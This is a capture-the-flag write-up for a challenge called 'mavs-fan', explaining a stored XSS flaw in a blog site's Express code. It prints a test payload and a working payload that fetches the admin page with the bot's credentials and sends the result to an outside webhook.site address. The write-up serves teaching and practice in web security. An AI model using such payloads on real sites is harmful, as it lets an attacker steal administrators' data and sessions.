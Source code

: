 # mavs-fan writeups
### Team: UIT.4KySiNguLam

![image](https://github.com/user-attachments/assets/ca0fe3b8-4974-4569-a256-73a60f0ec078)

## Overview
Ok, so looking at this website, we see that it’s like a blogging / chat room website. There being an admin bot hints at this challenge being XSS-based.

![image](https://github.com/user-attachments/assets/5fa73e1c-5ed9-408c-ac5e-fba420902527)

## Vulnerability
- Let take a look at **app.js** code.

```javascript
app.post('/api/post', (req, res) => {
    const { message } = req.body;
    const newId = crypto.randomUUID();
    if (message) {
        posts.set(newId, {message: message, published: false});
    }
    return res.redirect(`/post/${newId}`);
});

app.get('/api/posts', (req, res) => {
    return res.json(publishedPosts);
});

app.get('/api/post/:id', (req, res) => {
    const post = posts.get(req.params.id);
    if (!post) return res.status(404).send('Post not found');
    return res.json(post);
});
```

- So we can basically just post things and we can clearly see that there is no XSS filter or any other protection.

## Exploitation

- Let try a simple XSS payload to test first.
```HTML
<img src=hehe onerror="alert('hehe')">
```

![image](https://github.com/user-attachments/assets/5e30c385-eab1-4bdc-975e-2ac7a066c744)
- It works~!
- Lemme see /admin code base.

```javascript
const FLAG = process.env.FLAG || 'lactf{test_flag}';
const ADMIN_SECRET = process.env.ADMIN_SECRET || 'placeholder';

app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});
```
- Because this is a XSS challenge, we can set up a **webhook.site**, then collect flag through js script by sending request to our **webhook** when we XSS.
- Here is the payload:
```HTML
<img src=hehe onerror="fetch('/admin', {credentials: 'include'})
  .then(response => response.json())
  .then(data => { 
    new Image().src = 'https://webhook.site/33b405ba-8b20-497a-9aea-917e2f20cf85?flag=' + data.trade_plan;
  });">
```
- Post it to web challenge then copy PostID URL to **admin bot**. Just get flag at **webhook**

![image](https://github.com/user-attachments/assets/71c86384-f50a-4f60-98eb-63c41ce7bcfd)

